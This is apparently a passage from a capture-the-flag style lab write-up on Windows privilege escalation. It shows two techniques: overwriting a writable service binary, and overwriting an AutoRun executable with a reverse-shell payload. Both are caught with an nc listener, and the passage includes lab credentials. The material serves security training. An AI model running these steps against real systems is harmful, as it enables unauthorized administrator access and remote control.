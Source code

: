 <img width="1091" height="486" alt="image" src="https://github.com/user-attachments/assets/3987011c-672f-4904-a4e9-885e47f4a88d" />


```bash
C:\PrivEsc>copy C:\PrivEsc\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
copy C:\PrivEsc\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.
```

```bash
C:\PrivEsc>net start filepermsvc
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xxx 50045
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

<img width="1097" height="145" alt="image" src="https://github.com/user-attachments/assets/5f90c63d-a144-46c6-b6f9-9de57ff30862" />

<br>
<h2>Task 7 . 𝗥𝗲𝗴𝗶𝘀𝘁𝗿𝘆 - Autoruns<a id='7'></h2>
<p>Query the registry for AutoRun executables:<br>

<code>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run</code><br>

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:<br>

<code>C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"</code><br>

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:<br>

<code>copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y</code><br>

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!<br>

<code>rdesktop MACHINE_IP</code></p>

<p><em>Answer the question below</em></p>

<p>7.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

```bash
C:\PrivEsc>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```
